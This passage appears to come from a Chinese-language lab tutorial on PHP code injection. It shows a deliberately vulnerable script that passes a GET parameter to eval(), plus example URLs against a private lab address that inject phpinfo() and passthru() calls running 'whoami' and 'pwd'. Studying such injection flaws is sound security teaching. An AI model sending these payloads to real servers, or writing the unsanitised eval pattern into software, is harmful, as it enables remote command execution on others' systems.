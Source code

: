 `http://10.101.177.100:9999/test10.php?code=phpinfo();`

![](assets/markdown-img-paste-20180416165641131.png)

`http://10.101.177.100:9999/test10.php?code=passthru("whoami");phpinfo();`

![](assets/markdown-img-paste-20180416165820873.png)

`所有的语句必须以分号结尾。比如 'echo "Hi!"' 会导致一个 parse error，而 'echo "Hi!";' 则会正常运行。 `


test11.php
```php
<?php
$code = $_GET['code'];
eval("\$res = $code;");
?>
```

`http://10.101.177.100:9999/test11.php?code=passthru(%27pwd%27)`

![](assets/markdown-img-paste-20180416171300743.png)
